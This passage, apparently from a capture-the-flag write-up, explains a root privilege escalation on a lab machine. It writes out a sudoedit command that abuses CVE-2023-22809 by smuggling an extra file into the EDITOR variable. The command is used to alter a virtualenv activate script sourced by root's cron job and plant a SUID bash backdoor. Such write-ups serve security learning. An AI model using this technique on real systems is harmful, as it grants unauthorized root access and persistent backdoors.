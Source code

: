 

There's a hint at this in a comment in the `test_and_update.sh` script
as well:



    ...[snip]...
    # system-wide source doesn't seem to happen in cron jobs
    source /app/venv/bin/activate
    ...[snip]...



### Shell as root

root is periodically logging in, and each time it will source
`/app/venv/bin/activate`. If I can edit that, I can get execution as
root. This file is writable by root and dev_admin:



    edwards@agile:/$ ls -l /app/venv/bin/activate
    -rw-rw-r-- 1 root dev_admin 1976 Jan 25 18:24 /app/venv/bin/activate



I'll abuse CVE-2023-22809 to write this file as dev_admin:



    edwards@agile:/$ EDITOR='vim -- /app/venv/bin/activate' sudoedit -u dev_admin /app/config_test.json 
    [sudo] password for edwards: 



In the file, I'll add code to create a SUID bash:

![](/img/image-20230125133012362.png)

After the next minute, the backdoor is now in `/tmp`, and gives a shell:

